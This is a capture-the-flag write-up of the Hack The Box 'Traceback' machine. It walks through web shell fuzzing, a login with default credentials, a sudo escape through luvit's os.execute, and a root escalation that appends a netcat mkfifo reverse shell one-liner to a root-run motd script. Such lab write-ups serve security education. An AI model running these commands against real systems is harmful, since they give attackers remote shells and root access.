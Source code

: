 # Traceback-HTB
Traceback is a Linux machine that rated as easy and it contain some OSINT. So let's start :)

# Recon
I started by runing nmap scan on the machine and found 2 open ports.
```
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 10.10.10.181
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-20 22:17 EDT
Nmap scan report for 10.10.10.181
Host is up (0.026s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.47 seconds
```
By visiting the Web Server you will not find something useful, but if you looked at the suorce page you will find this:
```html
<center>
		<h1>This site has been owned</h1>
		<h2>I have left a backdoor for all the net. FREE INTERNETZZZ</h2>
		<h3> - Xh4H - </h3>
		<!--Some of the best web shells that you might need ;)-->
	</center>
```
So the author who made the Machine actually made a list of Web Shells that you can find here: https://github.com/Xh4H/Web-Shells

So I coppied the list there and use it for fuzzing.
```
┌──(kali㉿kali)-[~/Desktop/HTB/TracBack]
└─$ cat Web-shell.txt 
alfa3.php
alfav3.0.1.php
andela.php
bloodsecv4.php
by.php
c99ud.php
cmd.php
configkillerionkros.php
jspshell.jsp
mini.php
obfuscated-punknopass.php
punk-nopass.php
punkholic.php
r57.php
smevk.php
wso2.8.5.php
```

## ffuf
As always the BEST tool for fuzing web directories is ffuf :)
```
┌──(kali㉿kali)-[~/Desktop/HTB/TracBack]
└─$ ./ffuf -w Web-shell.txt -u http://10.10.10.181/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.181/FUZZ
 :: Wordlist         : FUZZ: Web-shell.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

smevk.php               [Status: 200, Size: 1261, Words: 318, Lines: 59]
:: Progress: [16/16] :: Job [1/1] :: 4 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```
![image1](https://github.com/electronicbots/HackTheBox/blob/master/Machines/Traceback/images/1.png)

So we found the Web shell, but it require a username and a password. If you look look at ```smevk.php``` file you will find the username and the password ```admin:admin```

![image2](https://github.com/electronicbots/HackTheBox/blob/master/Machines/Traceback/images/2.png)

## User Flag

I prefer to work with a shell rathar than a Web Shell. So I added my public SSH key to the current user's.

![image3](https://github.com/electronicbots/HackTheBox/blob/master/Machines/Traceback/images/3.png)

And If we try to ssh now, we are in :)
```
┌──(kali㉿kali)-[~/Desktop/HTB/TracBack]
└─$ ssh webadmin@10.10.10.181
The authenticity of host '10.10.10.181 (10.10.10.181)' can't be established.
ECDSA key fingerprint is SHA256:7PFVHQKwaybxzyT2EcuSpJvyQcAASWY9E/TlxoqxInU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.181' (ECDSA) to the list of known hosts.
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 



Last login: Thu Feb 27 06:29:02 2020 from 10.10.14.3
webadmin@traceback:~$
```
So first thing we have is some notes:
```
webadmin@traceback:~$ cat note.txt 
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

If we try ```sudo -l```
```
webadmin@traceback:~$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

So we know that we can run ```luvit``` as ```systemamin```. So let's spwan a shell:
```
webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit -e 'os.execute("/bin/bash")'
sysadmin@traceback:~$ id
uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin)
```
Now we can get user flag:
```
sysadmin@traceback:/home/sysadmin$ cat user.txt 
a2a51fc3...caa3047eef4
```

## Root Flag

So if we check the running process we can find this:
```root       1531  0.0  0.0   4628   832 ?        Ss   19:57   0:00 /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ ```

if we check ```/etc/update-motd.d/ ```. We have write access on ```00-header``` so we can run commands as root. so let's get a reverse shell from it.

Start a listener: ``` nc -nlvp 4444 ```

Add the following line into 00-header ```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.28 4444 >/tmp/f ```
```sysadmin@traceback:~$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.28 4444 >/tmp/f" >> /etc/update-motd.d/00-header ```

Now ssh and you will get your reverse shell
```
┌──(kali㉿kali)-[~]
└─$ ssh webadmin@10.10.10.181                                                                                                                                                                                                        130 ⨯
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################
```
Now you should get your reverse shell as root :)

```
kali@kali:~$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.28] from (UNKNOWN) [10.10.10.181] 34606
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```
```
# cat root.txt
ba379ba...effa42c
```

Thanks for reading and you can find me here on Twitter: https://twitter.com/electronicbots
